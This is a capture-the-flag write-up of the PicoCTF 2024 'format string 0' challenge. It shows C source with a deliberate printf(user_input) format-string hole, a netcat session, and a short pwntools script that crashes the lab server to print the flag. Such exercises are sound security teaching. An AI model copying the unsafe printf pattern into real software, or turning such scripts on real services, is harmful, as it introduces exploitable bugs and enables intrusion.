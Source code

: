 ```yaml
---
title: Format String 0
parent: easy
grand_parent: pwn
great_grand_parent: PicoCTF
nav_order: 1
---
```


# format string 0 - PicoCTF 2024

**Category:** Binary Exploitation  
**Difficulty:** Easy  
**Tags:** Format String, pwntools

---

## Challenge Description

> Can you use your knowledge of format strings to make the customers happy?
> 
> Files provided:
> - `format-string-0` (binary)
> - `format-string-0.c` (source code)
> - Remote instance: `nc mimas.picoctf.net <port>`

> <details>
>   <summary>Hints</summary>
>   This is an introduction of format string vulnerabilities. Look up "format specifiers" if you have never seen them before.
>   Just try out the different options
> </details>

---

## Initial Analysis

Upon reading the description and reviewing the source code, it's clear that:

- A Format String attack with be at play

> Format String attacks are attacks where arbitrary code execution can occur, resulting in numerous vulnerabilities such as: RCE, buffer overflows, DoS, etc. This can occur when the printf() function does not handle its parameters appropriately.

---

## Source Code Analysis

```c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <signal.h>
#include <unistd.h>
#include <sys/types.h>

#define BUFSIZE 32
#define FLAGSIZE 64

char flag[FLAGSIZE];

void sigsegv_handler(int sig) {
    printf("\n%s\n", flag);
    fflush(stdout);
    exit(1);
}

int on_menu(char *burger, char *menu[], int count) {
    for (int i = 0; i < count; i++) {
        if (strcmp(burger, menu[i]) == 0)
            return 1;
    }
    return 0;
}

void serve_patrick();

void serve_bob();


int main(int argc, char **argv){
    FILE *f = fopen("flag.txt", "r");
    if (f == NULL) {
        printf("%s %s", "Please create 'flag.txt' in this directory with your",
                        "own debugging flag.\n");
        exit(0);
    }

    fgets(flag, FLAGSIZE, f);
    signal(SIGSEGV, sigsegv_handler);

    gid_t gid = getegid();
    setresgid(gid, gid, gid);

    serve_patrick();
  
    return 0;
}

void serve_patrick() {
    printf("%s %s\n%s\n%s %s\n%s",
            "Welcome to our newly-opened burger place Pico 'n Patty!",
            "Can you help the picky customers find their favorite burger?",
            "Here comes the first customer Patrick who wants a giant bite.",
            "Please choose from the following burgers:",
            "Breakf@st_Burger, Gr%114d_Cheese, Bac0n_D3luxe",
            "Enter your recommendation: ");
    fflush(stdout);

    char choice1[BUFSIZE];
    scanf("%s", choice1);
    char *menu1[3] = {"Breakf@st_Burger", "Gr%114d_Cheese", "Bac0n_D3luxe"};
    if (!on_menu(choice1, menu1, 3)) {
        printf("%s", "There is no such burger yet!\n");
        fflush(stdout);
    } else {
        int count = printf(choice1);
        if (count > 2 * BUFSIZE) {
            serve_bob();
        } else {
            printf("%s\n%s\n",
                    "Patrick is still hungry!",
                    "Try to serve him something of larger size!");
            fflush(stdout);
        }
    }
}

void serve_bob() {
    printf("\n%s %s\n%s %s\n%s %s\n%s",
            "Good job! Patrick is happy!",
            "Now can you serve the second customer?",
            "Sponge Bob wants something outrageous that would break the shop",
            "(better be served quick before the shop owner kicks you out!)",
            "Please choose from the following burgers:",
            "Pe%to_Portobello, $outhwest_Burger, Cla%sic_Che%s%steak",
            "Enter your recommendation: ");
    fflush(stdout);

    char choice2[BUFSIZE];
    scanf("%s", choice2);
    char *menu2[3] = {"Pe%to_Portobello", "$outhwest_Burger", "Cla%sic_Che%s%steak"};
    if (!on_menu(choice2, menu2, 3)) {
        printf("%s", "There is no such burger yet!\n");
        fflush(stdout);
    } else {
        printf(choice2);
        fflush(stdout);
    }
}
```

### Key Observations
- There are two individuals we must serve
- There are three options for us to choose from to serve each individual
- There are constraints that will dictate which options we choose
    - Patrick: `Gr%114d_Cheese` (passes since the printed characters exceed 64 bytes)
    - Bob: `Cla%sic_Che%s%steak` (triggers the vulnerability since it is the only option with `%s`)

---

## Static Binary Analysis

No binary analysis is necessary for this challenge.

---

## Exploitation

### Plan

1. Submit the necessary food based on our previous analysis
2. Receive the flag

### Manual Exploitation

```
$ nc mimas.picoctf.net 49618
Welcome to our newly-opened burger place Pico 'n Patty! Can you help the picky customers find their favorite burger?
Here comes the first customer Patrick who wants a giant bite.
Please choose from the following burgers: Breakf@st_Burger, Gr%114d_Cheese, Bac0n_D3luxe
Enter your recommendation: Gr%114d_Cheese
Gr                                                                                                           4202954_Cheese
Good job! Patrick is happy! Now can you serve the second customer?
Sponge Bob wants something outrageous that would break the shop (better be served quick before the shop owner kicks you out!)
Please choose from the following burgers: Pe%to_Portobello, $outhwest_Burger, Cla%sic_Che%s%steak
Enter your recommendation: Cla%sic_Che%s%steak
ClaCla%sic_Che%s%steakic_Che(null)
picoCTF{<censored>}
```

### Automated Exploitation with pwntools

```python
from pwn import *
import sys

if len(sys.argv) != 2:
  print(f"Usage: {sys.argv[0]} <port>")
  sys.exit(1)

host = 'mimas.picoctf.net'
port = int(sys.argv[1])

conn = remote(host, port)

# First customer (Patrick)
conn.recvuntil(b"Enter your recommendation:")
conn.sendline(b"Gr%114d_Cheese")

# Second customer (Sponge Bob)
conn.recvuntil(b"Enter your recommendation:")
conn.sendline(b"Cla%sic_Che%s%steak")

# Receive flag
print(conn.recvall().decode())
```

## Key Takeaways
- Format String attacks can be utilized to exploit a program in various ways
- Binary analysis is not always necessary in a pwn challenges